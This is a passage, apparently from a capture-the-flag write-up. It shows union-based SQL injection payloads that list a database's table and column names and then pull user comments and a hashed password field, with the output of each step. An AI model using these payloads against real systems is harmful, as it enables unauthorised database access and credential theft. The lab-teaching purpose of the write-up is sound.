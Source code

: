 6. Extract Column Names:
	- After identifying relevant table names, extract column names from specific tables.
	- Payload:
	```sql
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```
	- Input Example:
	```sql
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```
	- Observed Output:
	```sql
	ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
	First name: users
	Surname : user_id
	(This output will repeat for each column in the users table, such as first_name, last_name, town, country, planet, Commentaire, countersign, etc.)

7. Retrieve Specific Data (Flag Extraction):
	- With knowledge of the table and column structure, target specific data entries.
	- Payload to Retrieve User Comments:
	```sql
	1 UNION SELECT user_id, commentaire FROM users
	```
	- Input Example:
	```sql
	1 UNION SELECT user_id, commentaire FROM users
	```
	- Observed Output:
	```vbnet
	ID: 1 UNION SELECT user_id, commentaire FROM users 
	First name: 5
	Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
	```
	## Payload to Retrieve Countersign

	```sql
	ID: 1 UNION SELECT user_id, countersign FROM users
	```

	Input Example:

	```sql
	1 UNION SELECT user_id, countersign FROM users
	```

	Observed Output:

	```yaml
	First name: 5
	Surname : 5ff9d0165b4f92b14994e5c685cdce28
	```
